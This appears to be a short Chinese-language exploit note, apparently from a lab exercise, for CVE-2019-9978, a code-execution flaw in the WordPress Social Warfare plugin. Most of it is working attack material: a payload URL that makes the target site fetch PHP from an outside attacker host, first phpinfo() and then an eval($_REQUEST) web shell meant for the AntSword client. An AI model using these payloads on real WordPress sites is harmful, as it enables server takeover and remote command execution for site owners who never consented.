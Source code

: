 ### wordpress 代码执行 （CVE-2019-9978）

利用条件：

wordPress 安装插件**Social Warfare**

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220623144722.png)



自己网站上：

test.txt:

```
<pre>
    phpinfo();
</pre>
```

payload:

```
http://123.58.236.76:60481/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://hummer.vin:8888/test.txt
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220623145043.png)



蚁剑连接：

test.txt:

```
<pre>
	eval($_REQUEST['test']);
</pre>
```

```http://123.58.236.76:60481/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://hummer.vin:8888/test.txt```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220623145255.png)

